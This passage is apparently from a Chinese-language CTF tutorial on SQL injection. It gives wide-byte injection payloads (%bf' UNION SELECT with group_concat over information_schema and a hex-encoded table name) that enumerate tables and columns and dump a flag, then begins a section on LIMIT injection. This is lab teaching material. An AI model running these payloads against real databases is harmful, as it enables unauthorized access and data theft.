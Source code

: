 5.  查询出后台数据库中表的名称(`%bf' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())%23`)，结果为“**sae_user_sqli4**”：![在这里插入图片描述](img/2c4495ae27fa226d73e7071477bd01cd.png)
6.  查出后台数据库表的列名(`%bf' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='sae_user_sqli4')%23`)，结果为“**id,title_1,content_1**”：![在这里插入图片描述](img/1c69e66adfa635696c6c14be313d5054.png)![在这里插入图片描述](img/70e67ad549a1691e52627c02817d80ac.png)
    故正确的查询语句为：`%bf' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=0x7361655f757365725f73716c6934)%23`（十六进制串前面需要添加`0x`）：![在这里插入图片描述](img/39f4053a24fb4e1e8f81014a39f4fc7e.png)
7.  查出表中列的数值(`%bf' union select 1,2,(select group_concat(content_1) from sae_user_sqli4)%23`)，得出结果如下(**成功获得flag**)：
    ![在这里插入图片描述](img/690959c2268c73c8fb7b4310f107e3de.png)

# Limit 注入

## 基础理论

【limit】

下面是几种limit的方法：原则看看下面几个例子应该就懂了。在数据库中很多地方都会用到，比如当你数据库查询记录有几万、几十万时使用limit查询效率非常快，只需要查询出你需要的数据就可以了·再也不用全表查询导致查询数据库崩溃的情况。
